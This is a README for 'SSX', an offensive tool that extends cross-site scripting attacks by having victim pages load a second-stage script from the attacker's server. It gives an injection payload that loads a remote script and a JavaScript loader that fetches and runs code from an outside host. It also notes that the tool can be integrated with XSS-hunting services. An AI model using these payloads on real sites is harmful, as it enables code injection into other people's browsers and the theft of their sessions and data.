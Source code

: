 # SSX
**Second Stage XSS**, This tool will help you to exploit XSS more deeply.

**Installation:**

1. Clone this project
2. This app need permission to write on current directory, for creating and update log
3. Change base URL in file en.js with your server address, example

```javascript
var base_url = "https://yourweb/ssx/ping.php";
```

**How to use:**

Send payload XSS and pointing to your server, such as: <script src=//yourserver/en.js></script>

You can integrate with xss hunter or EzXSS by adding a secondary payload as follows:

```javascript
var js = document.createElement("script");
js.type = "text/javascript";
js.src = "https://yourserver/en.js";
document.body.appendChild(js);
```

More info: https://dimazarno.medium.com/second-stage-xss-ssx-cd42d6e519c5

**Please don't install it on a production server, and use it wisely, I am not responsible if there is damage / loss using this tool !!**

Happy hunting!
